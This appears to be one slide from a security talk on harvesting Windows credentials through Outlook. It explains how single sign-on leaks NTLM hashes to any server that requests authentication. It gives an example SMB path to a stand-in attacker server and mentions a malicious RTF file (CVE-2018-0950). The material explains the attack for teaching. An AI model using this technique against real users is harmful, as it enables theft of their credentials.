

27
# Credentials Harvesting
Leaking of hashes is not new. It is caused by a design flaw in Windows related to their single sign-on implementation. If a server requests for the user to authenticate, Windows will try to do so using the user's credentials. This way the user doesn't need to provide his/her credentials for each individual server. The downside is that any server can request authentication and Windows will happily comply.
There are couple of ways to gain the credential from the user via outlook
Send email which contains SMB call to the server which is under attacker’s control
Eg:- \\attackerserver\demo.jpg
Send email with malicious RTF file (CVE-2018-0950)